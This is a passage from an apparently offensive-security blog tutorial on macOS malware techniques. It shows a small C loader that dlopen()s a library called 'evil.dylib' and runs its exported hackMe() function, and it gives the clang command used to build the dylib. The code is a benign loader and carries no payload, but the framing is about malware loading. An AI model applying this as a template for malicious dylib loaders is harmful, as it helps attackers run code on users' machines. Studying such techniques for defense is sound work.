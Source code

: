 Then, let's create the tiniest `dlopen()` loader. The code is pretty simple:    

```cpp
/*
 * hack.c
 * load library on macOS
 * author @cocomelonc
 * https://cocomelonc.github.io/macos/2025/08/10/malware-mac-8.html
 */
#include <dlfcn.h>
#include <stdio.h>

int main() {
  // malicious dylib
  void *handle = dlopen("./evil.dylib", RTLD_LAZY);
  if (!handle) {
    fprintf(stderr, "error: %s\n", dlerror());
    return 1;
  }

  // import and execute malicious function from lib
  void (*hackMe)() = dlsym(handle, "hackMe");
  if (hackMe) {
    hackMe(); // run malicious function
  }

  dlclose(handle);  // close handle
  return 0;
}
```

This is the minimal shape of runtime loading: build a tiny dylib that exports `hackMe()`, then load & call it.     

### demo

My local VM's Kernel version is `24.4.0`:     

![malware](/assets/images/170/2025-08-09_03-58_1.png){:class="img-responsive"}    

Let's go to see this in action. Compile dylib:    

```bash
clang -dynamiclib -o evil.dylib evil.c
```

![malware](/assets/images/170/2025-08-09_03-59.png){:class="img-responsive"}    
